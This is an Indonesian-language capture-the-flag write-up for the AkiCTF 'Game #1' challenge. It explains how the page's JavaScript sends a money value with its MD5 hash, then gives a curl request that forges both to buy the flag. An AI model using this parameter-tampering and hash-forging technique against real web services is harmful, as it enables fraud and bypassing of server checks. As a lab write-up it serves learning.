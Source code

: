 ```yaml
---
layout: post
title: "Writeup AkiCTF"
description: "Writeup AkiCTF"
headline: 
modified: 2016-11-09
imagefeature: 
mathjax: 
chart: 
category: akictf
comments: true
featured: false
---
```


## Writeup AkiCTF

ini sebenernya ctf yang udah lama kayaknya ini mulai pas tahun 2013, tapi 
challenge nya menurut gw masih legit buat di cobain link nya di sini [AkiCTF](http://ctf.katsudon.org/)


### Game #1 - 70 Points

Deskripsi soal nya gak ada sama sekali, kita cuma di kasih link [q6.ctf](http://q6.ctf.katsudon.org)

Dari website nya kita bisa liat di situ ada game RPS(rock, papper,scissor) dan di bagian bawahnya ada 
rangking yang kalau sepertinya kalau duit kita cukup untuk beli ranking nya flagnya bakal muncul

view pagesource nya kita bisa liat di situ ada kode javascript berikut :

```
javascript 

<script>
    $(function() {
        var d = $("#h"),     // id h 
            c = $("#money"), // duit kita diambil dari sini
            b = $("#message"); // id message 
        
        $("#jankenForm").submit(function() { // kalau form RPS nya kita submit
            0 < c.text() && $.post("/janken", { // kirim post 
                h: d.val(), // parameter h di ambil dari variable d.val()
                money: c.text() // parameter money di ambil dari c.text
            }).done(function(a) { 
                a.error ? b.text("error") : (d.val(a.h), c.text(a.money), b.text(a.message))
            }).fail(function() {
                b.text("Oops... Try again later.")
            });
            return !1
        });
        
        $("#registerForm").submit(function() {
            $.post("/register", {
                h: d.val(),
                money: c.text()
            }).done(function(a) {
                a.error ? b.text("error") : b.text(a.message)
            }).fail(function() {
                b.text("Oops... Try again later.")
            });
            return !1
        })
    });
</script>
```

kalau kita liat javascriptnya dia kan ambil money langsung dari #money tapi kalau kita ganti
misalnya inspect element jadi 99999999 terus kita coba register bakal output nya jadi error
kenapa? karena pas di post ada 2 parameter yang di lempar selain parameter money, yaitu parameter h 

isi variable h adalah md5 `d3d9446802a44259755d38e6d163e820 = 10` jadi yang di kirim di parameter h adalah
hash md5 dari money yang nanti bakal di validasi lagi di server nya jadi untuk ngecoh validasinya
kita modifikasi #money sama value dari h

jadi kita bisa langsung kirim ke register dan atur duitnya sesuka kita : 
`curl 'http://q6.ctf.katsudon.org/register' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' --data 'h=c8c605999f3d8352d7bb792cf3fdb25b&money=999999999' --compressed`

flag bakal muncul di response nya 
`{"message":"Congrats! The flag is "YIPPEE"."}`